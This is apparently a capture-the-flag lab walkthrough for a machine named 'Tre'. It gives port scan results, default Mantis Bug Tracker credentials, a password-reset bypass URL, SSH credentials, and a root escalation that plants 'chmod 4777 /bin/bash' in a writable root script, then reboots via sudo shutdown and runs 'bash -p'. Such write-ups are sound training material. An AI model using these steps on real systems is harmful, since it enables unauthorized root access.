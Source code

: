 # Tre

***

IP=192.168.240.84

## NMAP

| PORT     | STATE | SERVICE         |
| -------- | ----- | --------------- |
| 22/tcp   | open  | ssh             |
| 80/tcp   | open  | http            |
| 8082/tcp | open  | blackice-alerts |

```perl
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 991aead7d7b348809f88822a14eb5f0e (RSA)
|   256 f4f69cdbcfd4df6a910a8105defa8df8 (ECDSA)
|_  256 edb9a9d72d00f81bd399d602e5ad179f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Tre
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

```perl
/info.php
/system
/cms
```

### system



<figure><img src="../../.gitbook/assets/Pasted image 20231021122436.png" alt=""><figcaption></figcaption></figure>

admin:admin

#### Mantis Bug Tracker

http://192.168.240.84/system/verify.php?id=1\&confirm\_hash=



<figure><img src="../../.gitbook/assets/Pasted image 20231021124122.png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/Pasted image 20231021182901.png" alt=""><figcaption></figcaption></figure>

## 22 - ssh

```bash
ssh tre@$IP
Tr3@123456A!
```

## PrivEsc



<figure><img src="../../.gitbook/assets/Pasted image 20231021183720.png" alt=""><figcaption></figcaption></figure>

```bash
tre@tre:~$ ls -la /usr/bin/check-system 
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
```

```bash
cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
```

add `chmod 4777 /bin/bash`

```bash
tre@tre:~$ sudo -l

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
```

```bash
sudo /sbin/shutdown -r 0
```

```bash
bash -p
```

